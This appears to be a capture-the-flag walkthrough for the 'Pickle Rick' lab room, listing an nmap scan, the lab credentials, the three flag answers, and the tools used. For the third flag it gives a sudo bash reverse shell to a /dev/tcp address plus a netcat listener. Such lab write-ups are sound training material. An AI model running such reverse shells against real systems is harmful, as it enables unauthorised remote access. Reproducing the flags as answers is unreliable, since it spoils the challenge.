 # Pickle Rick Walkthrough
  ![Pickle Rick](./images/rickandmorty.jpeg)


## Nmap Scan 

- **Command:**  
  ```bash
  sudo nmap -T4 -n -sC -sV -Pn -p- -oN fastscan.txt 10.10.44.71
  ```
- **Screenshot:**  
  ![Nmap Scan Screenshot](./images/nmap_scan_screenshot.png)

---

## Credentials

- **Username:** `R1ckRul3s`
- **Password:** `Wubbalubbadubdub`
- **robots.txt Entry:** `Wubbalubbadubdub`

---

## First Ingredient

- **Command Used:**  
  ```bash
  less Sup3rS3cretPickl3Ingred.txt
  ```
- **Flag:**  
  ```
  mr. meeseek hair
  ```
- **Screenshot:**  
  ![Screenshot](./images/first_ingredient.png)

---

## Second Ingredient

- **Command Used:**  
  ```bash
  less /home/rick/second\ ingredients
  ```
- **Flag:**  
  ```
  1 jerry tear
  ```
- **Screenshot:**  
  ![Screenshot](./images/second_ingredient.png)

---

## Third Ingredient

- **Reverse Shell Command:**  
  ```bash
  sudo bash -c 'bash -i >& /dev/tcp/10.8.76.195/1111 0>&1'
  ```
- **Listener Command:**  
  ```bash
  nc -lvnp 1111
  ```
- **Flag:**  
  ```
  fleeb juice
  ```
- **Screenshot:**  
  ![Screenshot](./images/third_ingredient.png)

  ## Tools Used to Complete the Room

  1. **Nmap**  
    For network scanning and service enumeration.

  2. **Gobuster**  
    To perform directory and file brute-forcing.

  3. **Linux Commands**  
    Common commands like `less`, `ls -al`, `cd`, etc., for file and directory navigation.

  4. **Reverse Shell Generator**  
    A browser extension used to craft reverse shell payloads.

  5. **Nikto**  
    A web server scanner used to identify vulnerabilities and misconfigurations.



## Happy Hacking

<div align="center">
  <img src="https://user-images.githubusercontent.com/74038190/225813708-98b745f2-7d22-48cf-9150-083f1b00d6c9.gif" alt="Live Demo">
</div>
